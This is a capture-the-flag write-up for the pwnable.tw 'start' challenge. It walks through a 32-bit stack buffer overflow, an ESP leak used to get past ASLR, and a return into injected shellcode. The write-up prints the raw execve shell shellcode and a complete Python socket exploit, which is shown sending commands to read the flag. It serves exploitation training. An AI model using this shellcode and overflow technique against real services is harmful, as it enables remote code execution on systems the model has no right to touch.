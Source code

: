 # [100 points] Welcome

This is the first exercise from pwnable.tw

First things first, we analyze the binary, and quickly realize that it prints a message with syscall 4, reads input using a syscall 3, and puts the result into stack.

We notice that the buffer we get is 20 bytes large, but we can read in 60 bytes, meaning that this probably is a stack overflow.

First we try to enter 20 characters and look at the stack

```
========================================[stack]========================================

0xffffd2e4:	0x61	0x61	0x61	0x61	0x62	0x62	0x62	0x62
0xffffd2ec:	0x63	0x63	0x63	0x63	0x64	0x64	0x64	0x64
0xffffd2f4:	0x65	0x65	0x65	0x0a   [0x9d	0x80	0x04	0x08] <-- RET addr (EIP)
0xffffd2fc:    [0x00	0xd3	0xff	0xff]  [0x02	0x00	0x00	0x00
0xffffd304:	0xa7	0xd4	0xff	0xff	0xc2	0xd4	0xff	0xff
0xffffd30c:	0x00	0x00	0x00	0x00	0xc3	0xd4	0xff	0xff
0xffffd314:	0xd4	0xd4	0xff	0xff	0xdf	0xd4	0xff	0xff
0xffffd31c:	0xea	0xd4	0xff	0xff] (32 bytes of stack we can abuse)
```

This is the part we write to, here: "aaaabbbbccccddddeee\n" (newline is automatically inserted by the program)

After some quick testing, I realized that ASLR was enabled in the program, which is a problem.

we do however, from running `vmmap` in `gdb`, know that the stack is executable;

```
  0xfffdd000 0xffffe000 rwxp	[stack]
; ^          ^                             the addresses here will be random due to ASLR
```

Now, I could not find a way to solve this with ASLR on, but we can write a script that generates the rest of the code, and we can verify that it works in gdb with randomization off.

```python
payload = ''
payload += "\x90"*20 # padding (NOP)
payload += "\x00\xd3\xff\xff" # addr of exploit code in stack

exp = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload += "\x90"*(36-len(exp))
payload += exp

print payload
```

And when running this in gdb with `r < exp`:

```
gdb-peda$ r < exp
Starting program: /home/igor/Downloads/start < exp
Let's start the CTF:process 28206 is executing new program: /usr/bin/dash
[Inferior 1 (process 28206) exited normally]
Warning: not running
gdb-peda$ 
```

And it works!

However, after this, I simply couldn't figure out how to bypass ASLR, I knew I had read about it before, but I simply lacked the knowledge required.

So, I ended up cheating :/. 

Thanks to a [great writeup by @__cpg on medium](https://medium.com/@__cpg/pwnable-tw-start-100pt-b98f55bf8d6), I figured out how to solve it.

The clue here is to abuse your ability to make the program print the content of its SP (stack pointer).

So the solution involves overflowing the buffer to make the program return to the segment just after pushing the strings onto the stack. This is beacuse we now have the SP! And with that, we can control where we want to return to on the stack, and of course, place our shellcode there.

To get the shellcode, I used a program called `regg2`, which is a `r_egg` frontend for `radare2`, and it allows you to create shellcode very easily.

The command to get the shellcode is now simply `ragg2 -i exec -b 32`. And with some python magic, we can dump this rather easily into the binary with the correct endianness and what-not.

Alright, let's code this out.

```python
import socket
from struct import pack, unpack
from binascii import unhexlify

# ragg2 -i exec -b 32
shellcode = unhexlify('31c050682f2f7368682f62696e89e3505389e199b00bcd80')

sck = socket.create_connection(('chall.pwnable.tw', 10000))

# Initial message from server
sck.recv(1024)
```

First we have some boring setup, but it's obviously necessary.

```python
# Overflow buffer, and set RET addr (ESP) to [MOV ECX,ESP]. Remember little-endianness
sck.send(b'\x90'*20 + pack("<I", 0x08048087))
```

This is where the first magic happens; we overflow the buffer with _nop_s, and then set the RET address to the specified location:

```
        ; addr   hex             instr.     arguments

        08048082 68 4c 65        PUSH       "Let'"
                 74 27
        08048087 89 e1           MOV        ECX,ESP ; <----- Here, to be exact
        08048089 b2 14           MOV        DL,0x14
        0804808b b3 01           MOV        BL,0x1
        0804808d b0 04           MOV        AL,0x4
```

Now, let's see what we get...

```
# Now we receive the ESP as we forced it to print it
esp, = unpack("<I", sock.recv(1024)[:4])

print("============================")
print(f"  SP leaked: {hex(esp)}")
print(f"  New RET addr: {hex(esp + 20)}")
print("============================")
```

And run.

```
============================
  SP leaked: 0xffee6200
  New RET addr: 0xffee6214
============================
```

It works!

And now, let's finally create the payload and get ready to ship it off.

```
# Now we prepare the payload
payload = b''

payload += b'\x00'*20 # Padding
payload += pack('<I', esp + 20) # New return addr
payload += shellcode

sock.send(payload)
sock.send(b'find / -name "*flag*"\n')

print("Result received!")
print(f"Filename: {sock.recv(4096).decode()}")
```

This should all be pretty self-explanatory, and now, let's see if it works!

```
============================
  SP leaked: 0xffee6200
  New RET addr: 0xffee6214
============================
Result received!
Filename:
     .
     .
     .
/home/start/flag
```

Wow, it works! All that's left now is to `cat` the file, and we're done.

Final code:

```python
import socket
from struct import pack, unpack
from binascii import unhexlify

# ragg2 -i exec -b 32
shellcode = unhexlify('31c050682f2f7368682f62696e89e3505389e199b00bcd80')

sock = socket.create_connection(('chall.pwnable.tw', 10000))

# Initial message from server
sock.recv(1024)

# Overflow buffer, and set RET addr (ESP) to [MOV ECX,ESP]. Remember little-endianness
sock.send(b'\x90'*20 + pack("<I", 0x08048087))

# Now we receive the ESP as we forced it to print it
esp, = unpack("<I", sock.recv(1024)[:4])

print("============================")
print(f"  SP leaked: {hex(esp)}")
print(f"  New RET addr: {hex(esp + 20)}")
print("============================")

# Now we prepare the payload
payload = b''

payload += b'\x00'*20 # Padding
payload += pack('<I', esp + 20) # New return addr
payload += shellcode

sock.send(payload)
#sock.send(b'find / -name "*flag*"\n')
sock.send(b'cat /home/start/flag\n')

print("Result received!")
print(f"Filename: {sock.recv(4096).decode()}")
```
